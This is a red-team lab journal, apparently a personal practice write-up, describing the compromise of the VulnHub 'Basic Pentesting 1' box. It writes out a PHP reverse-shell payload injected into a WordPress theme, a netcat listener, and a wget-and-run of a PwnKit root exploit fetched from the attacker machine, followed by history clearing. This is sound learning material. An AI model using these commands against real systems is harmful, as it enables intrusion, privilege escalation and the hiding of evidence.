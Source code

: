 
## Red Team Journal – Day 002 – June 15, 2025

### 🗂️ Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### 🎯 Objectives
- [x] Regain WordPress admin access
- [x] Inject PHP reverse shell via theme
- [x] Get reverse shell to Kali
- [x] Upgrade to interactive TTY
- [x] Enumerate for privilege escalation vectors
- [x] Exploit PwnKit to gain root
- [x] Clean up artifacts

---

### 🚪 Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in TwentySeventeen theme  
**Payload used:**
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

Listener setup on Kali:

nc -lvnp 4444

Result:
Gained shell as www-data.
🧬 Shell Stabilization

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

Notes:

    Did not run fg, avoiding broken shell state

    Set terminal manually for better interaction

🔍 Enumeration Highlights

uname -a
cat /etc/os-release
ls /home
sudo -l
find / -perm -4000 -type f 2>/dev/null

Key Findings:

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

🔓 Privilege Escalation

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

python3 -m http.server 8000

On Target:

cd /tmp
wget http://192.168.56.10:8000/PwnKit -O PwnKit
chmod +x PwnKit
./PwnKit

Result:

root@vtcsec:/tmp# whoami
root

🧼 Cleanup Actions

rm /tmp/PwnKit
history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.
🔧 Tools Utilized

    nmap, gobuster, wpscan

    curl, netcat, wget, python3

    Metasploit (for ProFTPD attempt)

    Static PwnKit binary

💡 Key Takeaways

    Always check /wp-login.php and XML-RPC for exposed WordPress logins

    Use encoded curl payloads to bypass broken command injection

    Static precompiled binaries save time vs. build errors (GLIBC mismatch)

    Do not use fg without setting proper terminal (stty raw -echo)

    After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults

🔁 Next Steps

Try linpeas.sh or les.sh for automated enum

Explore cron, PATH, and wildcard-based privesc options

Check /home/marlinspike for reused creds

Build a modular PHP reverse shell dropper

Document exploitation workflow into reusable SOPs

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE1MDUyNzg2MTEsMTY0NjQ0NDU4N119
-->
